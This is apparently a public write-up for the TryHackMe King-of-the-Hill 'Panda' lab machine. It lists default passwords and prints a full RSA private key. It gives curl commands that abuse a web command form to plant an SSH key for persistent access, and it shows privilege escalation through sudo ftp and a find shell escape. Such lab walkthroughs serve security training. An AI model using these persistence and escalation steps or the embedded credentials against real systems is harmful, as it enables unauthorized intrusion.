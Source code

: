 # Panda THM Public Writeup
#### Important - NO  `nc` OR `chattr` on the Panda!

#### Important Machine related information

#### Map
```lua 
nmap service overview
1337 - xxe 
```

#### Default Credentials
```
po : password1 # wordpress
shifu : batman # ssh

# Tigress's Id_rsa:

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0rJZ4ALm6AgaONlRb5YmyTYRqXkI6c/+TGg9biygTS1GiYFC
E+jMqk+q9nsl0cWFjns4Z2MA5uxiPzix7LcywiB6zScGcSkYaqKCFoOFT3VlpQYh
hhSHpPyv2Td6x6D1VhkYC/B2ilQsJJyqbGQ10JnP9wo1USzh21bsBPBs+wz6dnKZ
oY7BWkE1PwBfjhEVEFBSz5XfmcoOK2RQqAJ1YYWoxHA0fJ88pj7PahIGkGrq6g/Z
8AGZhYdZBSl91gMAnRjOrYIq8ufnJNw0YQpA78h9VDJUfXXfEe3EGCTpmcOH0NMa
RyoMS9qreJZ1NgwuTlFJwp5zj9RMRDBqnv/hcQIDAQABAoIBAAOyeX1Cz8Z2je89
cP5iRh/1wO2WYB+qNK4mjh1mzxFLoBc9m2k6Bo1ehIN6ubkqnCNZ6i12QUfMEhVF
62lZ9ZwOcdkzvBs0O2dznpDCkg5I4xW4O9JcfdzZSkSngpIKMwPlwNREze+zdmrW
DO+F+qPEby/IkBLylKwCpHWZum/VTEj1fYCJVHbZf5Pycdg0nOFHigGdpnJW18LI
yL9Firkc4TVsEd1a05THeENvp2nCnreIpBkyf32lOZB7M6AWFsROY1UApLtN7KS/
YPGnL2aftlCfrCqqj5WZQ7AUPAQPqgW+LYr+VaIRHyeRQnK1SFYZfV9PiYC3eloU
U8zMAxkCgYEA/eEHG1fjHb9v5U5leUyQDka9T35+Fq4P+sJh3c3bAQgwBQ0t5576
ZKobHwJZBXGE44gr8DmYnQWRymWWTly0weBMRv6kLCchU9BTGg0SsAEVKxtq+VUp
UyC/N4C0eWl3OAl4JsCpj0z/uc3oMryFyWr7lBajOwrKX0tsLcBqXvMCgYEA1HT4
FFHxwrrhsKztT6CtwHePnDbmzAoo6aSMIAeAf8dkQpddLAw85lHVGUZZie7OxXS7
euOwg15omV+9AxxRne0SEIAf8ldtiyquH+LaZHQElkPpdj2B6rznBywovLNDY4AT
biUGze+MwlH9gUHuyaULB9vcw9Dz30S/XgKwPwsCgYEAg1mQZroy3Co2h0nnQDm3
cltxCJbmP2+w/sjg/3PI8iC9T2/BJ0veOoSz4XhCfIl9+oZyTShPaDYAdtnWSRa3
wnL8o+KNJ/bazFVFGX5YA82bmSDnWLaR2dtgcyPYu9QwBUMI8evODkEFMalxkAZv
pYT/Ql/v9dUgXOtVvdoGbrcCgYEA0k6/TA4ZzXOE+YkUmOArXvx7cl1+dbgQ68dw
1jvW3aYY/zoqhvHOTwfudEiJVdrJX/i/pVRCZKhNzpVQ2wVrXXNRkHfkJ9aXn00u
dG3xVcLqz3yGW/9i3WUFJLp30ON678HWeg+4/p4Erk7PLOaBY6Y2lx7zF/t9jSPW
c08h/CUCgYA2cFZCvohbd27q0BDVHZQhAhLIRnRexTL4urF7Y+BzyGDiiPKcFYM8
44Ruf0x4Yvkjx1k4OR1njTKSmnPA4FSu/jzUH0KsVPUe0Kyx9W6VVyw1LLYuj/iY
KQCo0DuuJ1a3H0niYraMvmpiF73XW72l8SZGw+xT+741AxqZ5ljRpQ==
-----END RSA PRIVATE KEY----

```
#### Network Services to Foothold

mysql -u root -p root `probably`

Backdoor In Panda Machine. Patch
```
[root@panda 06d63d6798d9b6c2f987f045b12031d6]# ls
flag  index.php
[root@panda 06d63d6798d9b6c2f987f045b12031d6]# cat -v index.php
<html>
<head>
</head>
<body>
 <form action="index.php" method="POST">
  <label for="cmd">cmd: </label>
  <input type="text" id="cmd" name="cmd">
  <input type="submit" value="submit">
</form>
<?php
if ($_POST['cmd']){
  echo "No command execution, matheuz was kidding you x)";
}
?>
</body>
</html>
[root@panda 06d63d6798d9b6c2f987f045b12031d6]#
```

Pure curl - make ssh directory for your key
```bash
mkdir .ssh
echo ssh-rsa [pubkey] > .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

```bash
curl -d 'cmd=mkdir+%7E%2F.ssh' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d "cmd=echo+$(cat .ssh/id_ed25519.pub)+%3E+%7E%2F.ssh%2Fauthorized_keys" http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d 'cmd=chmod+600+%7E%2F.ssh%2Fauthorized_keys' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d 'cmd=chmod+700+%7E%2F.ssh' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php

ssh shifu@panda.thm
```

#### Privilege Escalation

```
wp-login.php
po : password1 
php web shells 

```

shifu
```bash
sudo /usr/bin/ftp
!/bin/sh
```

 find SUID
```bash
find . -exec /bin/sh -p \; -quit
```


#### Flags
```bash
/root/king.txt

/root/.flag
/home/po/flag.txt
/home/shifu/flag.txt
/home/tigress/flag.txt

# (hex and b64) work in progress cyberchef fallback or not bother?
cat /var/www/html/flag/index.html | grep '\x' | ... printf && echo '' | base64 -d    
/var/www/html/06d63d6798d9b6c2f987f045b12031d6/flag


strings /srv/samba/anonymous/binary # grep flag
```

#### References
https://medium.com/@Ankit.0101/tryhackme-koth-panda-af078a18b852
https://github.com/0x76OID/KOTH/blob/main/Panda/Panda.sh
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-panda.md